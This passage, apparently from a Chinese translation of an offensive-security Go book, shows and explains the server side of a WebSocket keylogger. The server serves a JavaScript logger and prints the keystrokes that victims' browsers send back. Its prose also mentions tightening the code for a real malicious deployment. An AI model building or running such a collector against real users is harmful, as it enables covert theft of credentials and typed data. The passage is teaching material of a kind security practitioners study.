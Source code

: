 ```go
    jsTemplate, err = template.ParseFiles("logger.js")
    if err != nil {
        panic(err)
    }
}

func serveWS(w http.ResponseWriter, r *http.Request) {
    conn, err := upgrader.Upgrade(w, r, nil)
    if err != nil {
        http.Error(w, "", 500)
        return
    }
    defer conn.Close()
    fmt.Printf("Connection from %s\n", conn.RemoteAddr().String())
    for {
        _, msg, err := conn.ReadMessage()
        if err != nil {
            return
        }
        fmt.Printf("From %s: %s\n", conn.RemoteAddr().String(), string(msg))
    }
}

func serveFile(w http.ResponseWriter, r *http.Request) {
    w.Header().Set("Content-Type", "application/javascript")
    jsTemplate.Execute(w, wsAddr)
}

func main() {
    r := mux.NewRouter()
    r.HandleFunc("/ws", serveWS)
    r.HandleFunc("/k.js", serveFile)
    log.Fatal(http.ListenAndServe(":8080", r))
}
```

代码 4-9: 按键记录服务 \([https://github.com/blackhat-go/bhg/ch-4/websocket\_keylogger/main.go/](https://github.com/blackhat-go/bhg/ch-4/websocket_keylogger/main.go/)\)

我们有很多东西要讲。首先，请注意正在使用的另一个第三方包 ，`gorilla/websocket` ，用来处理WebSocket的通信。这是一个功能齐全，强大的包，能简化开发工作，像本章前面使用过的 `gorilla/mux`路由。不要忘记先在终端执行 **go get github.com/gorilla/websocket**。

然后定义服务器用到的变量。创建了`websocket.Upgrader`实例，本质上将每个源加到白名单中。这种允许所有的源是典型的糟糕的安全实践，但是对于本例而言，我们将使用它，因为这是个测试实例并运行在本地的工作站上。在实际恶意部署中使用时，可能将源限制为明确的值。

在 `main()` 函数之前自动执行的 `init()` 函数中，定义了命令行参数，并尝试解析Go模板存到 _logger.js_ 文件中。注意调用 `template.ParseFiles("logger.js")` 。检查返回值确保文件被正确地解析。如果一切顺利，那么已经将解析后的模板存储在名为jsTemplate的变量中。

到目前，模板中还没有任何的上下文数据或执行它。不过很快就会的。首先，定义名为 `serveWS()` 的函数，用于处理WebSocket的通信。通过调用 `upgrader .Upgrade(http.ResponseWriter, *http.Request, http.Header)` 创建了一个新的 `websocket.Conn` 实例。`Upgrade()` 方法将HTTP连接升级为使用WebSocket 协议。也就是任何被该函数处理的请求都被升级为使用WebSockets。在 `for` 的无限循环中和连接交互，调用 `conn.ReadMessage()` 来读取收到的消息。如果JavaScript工作正常，这些消息应该含有捕获到的按键。将信息和远程客户端的IP输出。
